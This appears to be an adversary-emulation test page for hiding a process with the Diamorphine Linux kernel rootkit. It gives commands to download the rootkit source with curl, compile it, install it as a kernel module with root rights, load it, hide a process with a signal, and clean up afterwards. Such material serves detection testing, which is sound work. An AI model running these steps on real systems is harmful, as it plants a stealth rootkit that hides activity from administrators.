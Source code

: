 
**auto_generated_guid:** 0b996469-48c6-46e2-8155-a17f8b6c2247





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| repo | Url of the diamorphine github repo | string | https://github.com/m0nad/Diamorphine/|
| rev | Revision of the github repo zip | string | 898810523aa2033f582a4a5903ffe453334044f9|
| rootkit_name | Module name | string | diamorphine|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo modprobe #{rootkit_name}
ping -c 10 localhost >/dev/null & TARGETPID="$!"
ps $TARGETPID
kill -31 $TARGETPID
ps $TARGETPID || echo "process ${TARGETPID} hidden"
```

#### Cleanup Commands:
```sh
kill -63 1
sudo modprobe -r #{rootkit_name}
sudo rm -rf /lib/modules/$(uname -r)/#{rootkit_name}.ko /tmp/atomic
sudo depmod -a
```



#### Dependencies:  Run with `bash`!
##### Description: The kernel module must exist on disk at specified location (#{rootkit_name}.ko)
##### Check Prereq Commands:
```bash
if [ -f /lib/modules/$(uname -r)/#{rootkit_name}.ko ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
mkdir -p /tmp/atomic && cd /tmp/atomic
curl -sLO #{repo}/archive/#{rev}.zip && unzip #{rev}.zip && cd Diamorphine-#{rev}
make
sudo cp #{rootkit_name}.ko /lib/modules/$(uname -r)/
sudo depmod -a
```




<br/>
